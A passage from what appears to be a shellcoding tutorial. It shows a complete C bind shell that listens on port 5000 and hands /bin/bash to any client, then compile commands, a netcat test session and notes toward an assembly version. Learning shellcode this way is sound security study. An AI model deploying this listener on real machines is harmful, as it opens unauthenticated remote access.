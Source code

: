         server_addr.sin_port = htons(5000); /* htons to convert to network byte order */

        /* Bind to the address we gave it */
        bind(sockfd, (struct sockaddr*)&server_addr, sizeof(server_addr));

        /* tell the server to listen */
        listen(sockfd, 10);

        /*
         * We should now start accepting client connections
         * the NULLS are because we dont care who is connecting
         * if we did we would need a pointer to a fresh sockaddr_in
         * struct for the accept call to fill in
         */

        clientfd = accept(sockfd, (struct sockaddr*)NULL, NULL);

        /* Redirect STDIN(0), STDOUT(1) and STDERR(2) to the client socket */
        dup2(clientfd, 0);
        dup2(clientfd, 1);
        dup2(clientfd, 2);

        /* execute the shell */
        char* args[] = {"/bin/bash", NULL};
        execve(args[0], args, NULL);

}
{% endhighlight %}

Lets compile and run
```
  $ gcc -m32 -o bind_shell bind_shell.c
  $ ./bind_shell

```
And now from another shell
```
  $ nc localhost 5000
  ls
  bind
  bind.o
  bind_shell
  bind_shell.c

```
Right so our C version is working, the code is pretty well commented but it is
clear that there is no error checking and also that there are LOTS of constants
that we wont have when we come to write this in assembly. These are

* syscall numbers (as C provides convenience functions for these)
* AF_INET - The protocol family
* SOCK_STREAM - Used for TCP connection
* INADDR_ANY - Used to tell OS to listen on all addresses

We also need to figure out how the sockaddr_in structure needs to look on the
stack 


[socket]: https://linux.die.net/man/7/socket  "Socket Man page docs"
[bind]: https://linux.die.net/man/7/bind  "Bind Man page docs"
[listen]: https://linux.die.net/man/7/listen  "listen Man page docs"
[bind]: https://linux.die.net/man/7/bind  "bind Man page docs"
[accept]: https://linux.die.net/man/7/accept  "accept Man page docs"
[dup2]: https://linux.die.net/man/7/dup2  "dup2 Man page docs"
[execve]: https://linux.die.net/man/7/execve  "execve Man page docs"